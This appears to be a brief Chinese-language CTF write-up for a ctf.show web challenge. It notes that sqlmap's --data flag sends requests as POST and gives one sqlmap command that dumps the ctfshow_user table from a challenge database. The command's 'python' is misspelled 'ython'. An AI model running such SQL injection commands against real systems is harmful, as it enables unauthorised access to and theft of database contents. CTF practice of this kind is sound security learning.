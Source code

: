 # 知识点
#### sqlmap的使用
加入 --data参数转换请求方式为post
# 思路
```bash
ython sqlmap.py -u http://3702c6fc-0dca-4e2b-aa95-dc334b33eebd.challenge.ctf.show/api/ --data 'id=1' --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```
